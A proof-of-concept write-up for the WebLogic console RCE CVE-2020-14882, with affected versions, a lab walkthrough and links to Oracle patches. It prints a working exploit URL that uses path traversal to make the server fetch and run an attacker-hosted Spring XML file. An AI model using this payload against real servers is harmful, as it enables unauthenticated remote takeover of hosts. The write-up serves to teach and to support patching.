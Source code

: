 # WebLogic RCE Vulnerability - CVE-2020-14882

- **Introduction**

CVE-2020-14882 is a remote code execution (RCE) flaw in the Console component of Oracle WebLogic Server. The pre-authentication flaw was given an attack complexity of “low” and highlighted as “easily exploitable” by Oracle resulting in it being assigned a critical CVSSv3 score of 9.8. Successful exploitation would allow an unauthenticated attacker to compromise the Oracle WebLogic server over HTTP and take complete control of the host. (https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild)

<p align="center">
  <img width="400" height="200" src="https://1.bp.blogspot.com/-HMAjWrWp82g/X6jHH5t4eQI/AAAAAAAALAY/Sh_rTLr2PV0VPyKbX_Ft4glMI86SjBGpQCLcBGAsYHQ/s16000/Oracle+Weblogic+flaw.png">
</p>

- **Score Severity - CVSS 3** :warning:

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/j5L3z3W/Capturar.png">
</p>
<br>

Supported versions that are affected are **10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0.**
# **Exploring** - POC :heavy_exclamation_mark:

### Environment :computer:

<span style="color:red">Victim (WebLogic Server): 192.168.0.15 - Windows 10 PRO running WebLogic Server.</span>
<br>
<span style="color:blue">Attacker (Hosted file XML): 192.168.0.16 - Kali Linux - GNU/Linux - Debian.</span>

1. For the first step, let's create a python file that will exploit the vulnerability in weblogic.

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/xHymN9d/1.png">
</p>

Payload:

`http://{}:{}/console/images/%252E%252E%252Fconsole.portal' \
		'?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext' \
		'(%22http://192.168.0.16:8000/Documents/teste.xml%22)'.format('192.168.0.15', '7001')`

This payload will call a spring framework XML library to send a request to a server in the attacker's domain looking for the **teste.xml** file.

2. We need to prepare the XML file that will be called by the victim. We created a standard XML structure, however, we included the framework and the value fields are important in this step because they will be executed on the victim. For this example, we are calling the Windows calculator file.

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/1n3Ftj5/2.png">
</p>

3. On the attacker's host, we need to create a server with the XML file to be requested by the victim. For ease, we use our own python server http.server.

<p align="center">
  <img width="500" height="50" src="https://i.ibb.co/WpRLY6m/3.png">
</p>


4. Starting the attack :dart:. We start the script from **step 1**, 
In this step, we were able to identify the log of the XML file calls being made by the victim
<p align="center">
  <img width="600" height="100" src="https://i.ibb.co/8g14HZV/4.png">
</p>

5. RCE successfully executed :boom:. On the victim's side, it is possible to view the remote execution (RCE) of the windows calculator


<p align="center">
  <img width="600" height="400" src="https://i.ibb.co/q16796k/5.png">
</p>


## Conclusion
On October 28, security researcher named Jang published a blog post (in Vietnamese) about CVE-2020-14882, including partial details that could be used for a PoC. Jang is no stranger to WebLogic flaws, being credited with discovering and reporting CVE-2020-2555 to Oracle, which patched the vulnerability in its January 2020 CPU. In March, Jang confirmed that CVE-2020-2555 was not completely fixed. The bypass for CVE-2020-2555 was disclosed by another researcher, Quynh Le of VNPT Information Security Center (ISC). Both Le and Jang are credited with reporting this bypass, which is identified as CVE-2020-2883. (https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild)


### Some links to help fix<br>
* Oracle WebLogic: CVE-2020-14882 : Critical Patch Update (Doc ID 2771503.1) (https://support.oracle.com/knowledge/More%20Applications%20and%20Technologies/2771503_1.html)

* Oracle Critical Patch Update Advisory - October 2020
(https://www.oracle.com/security-alerts/cpuoct2020traditional.html)

* How to Mitigate the Impact of CVE-2020-14882 Weblogic
(https://support.oracle.com/knowledge/Oracle%20Database%20Products/2733752_1.html)

* Vulnerability in the Oracle WebLogic Server product of Oracle Fusion Middleware
(https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14882)


#### Vulnerability Fixed :chart:
